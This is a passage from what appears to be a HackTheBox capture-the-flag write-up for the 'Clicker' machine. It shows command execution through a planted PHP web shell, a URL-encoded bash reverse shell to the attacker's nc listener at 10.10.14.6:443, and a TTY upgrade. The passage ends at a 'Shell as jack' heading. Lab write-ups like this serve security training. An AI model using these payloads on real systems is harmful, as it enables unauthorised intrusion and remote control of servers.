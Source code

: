 Now I'll visit
`http://clicker.htb/exports/top_players_zhfppp54.php?cmd=id` and get
execution:

![](/img/image-20240125124926231.png)

#### Shell

To get a shell, I'll start `nc` listening on 443 and visit
`http://clicker.htb/exports/top_players_7pbbwdqy.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.6/443%200%3E%261%27`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.232 44604
    bash: cannot set terminal process group (1211): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@clicker:/var/www/clicker.htb/exports$



I'll do the [standard shell
upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    www-data@clicker:/var/www/clicker.htb/exports$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    www-data@clicker:/var/www/clicker.htb/exports$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@clicker:/var/www/clicker.htb/exports$



## Shell as jack

### Enumeration
